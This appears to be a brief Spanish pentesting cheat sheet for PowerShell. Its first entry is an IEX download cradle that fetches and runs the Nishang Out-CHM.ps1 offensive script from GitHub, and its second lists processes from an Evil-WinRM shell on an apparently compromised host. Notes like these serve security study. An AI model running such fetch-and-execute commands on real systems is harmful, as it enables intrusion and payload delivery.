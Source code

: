 # Powershell

## Ejecución de scripts remotos

```null
IEX(New-Object Net.WebClient).downloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1")
```

## Listar procesos

```null
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> Get-Process
```

